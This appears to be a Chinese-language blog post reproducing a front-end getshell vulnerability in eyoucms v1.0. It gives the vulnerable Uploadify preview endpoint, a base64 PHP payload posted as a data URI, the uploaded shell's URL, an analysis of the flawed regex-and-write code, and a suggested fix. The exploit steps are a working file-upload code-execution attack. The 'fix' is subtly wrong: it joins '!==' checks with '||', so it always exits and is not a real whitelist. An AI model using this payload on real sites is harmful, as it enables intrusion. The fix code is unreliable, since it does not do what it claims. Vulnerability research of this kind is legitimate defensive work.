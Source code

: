 ﻿---
title: eyoucms v1.0 前台getshell
categories: 漏洞复现
---
# 利用
>http://10.1.2.189/index.php/api/Uploadify/preview

出现

![](https://img-blog.csdnimg.cn/7d8b3ba289314836863357406689972b.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

<!--more-->
这时 `post` 数据base64 为php代码

>data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==

返回地址：

![](https://img-blog.csdnimg.cn/c0f244b5ccf049e5bcf0e69c0cf3509e.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Shell地址：

>http://10.1.2.189/preview/c7a10e2172ba0f171ec45f376fb0601d.php


# 漏洞分析
>\eyou\application\api\controller\Uploadify.php   第174行

![](https://img-blog.csdnimg.cn/3cc5cf6beeb84a9d8157e73bd74e0b01.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
下断点试一下

![](https://img-blog.csdnimg.cn/3f9a9713940a49caaceb5ddbc84568fd.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
通过php://input读取数据，然后进行正则，说一下这个$matches

>如果提供了参数matches，它将被填充为搜索结果。 $matches[0]将包含完整模式匹配到的文本， $matches[1] 将包含第一个捕获子组匹配到的文本，以此类推。

![](https://img-blog.csdnimg.cn/696129a042c5482e9a8d3915c18ac60e.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
写入并返回文件地址

![](https://img-blog.csdnimg.cn/ab446fd3e7f44554ab5a4a0c5aae15dd.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

# 修复
在type处加一个白名单就行

```
if ($type !== 'jpeg' || $type !=='png' || $type !=='gif' || $type!=='jpg') {
       exit();
}
if ($type === 'jpeg') {
        $type = 'jpg';
}
```
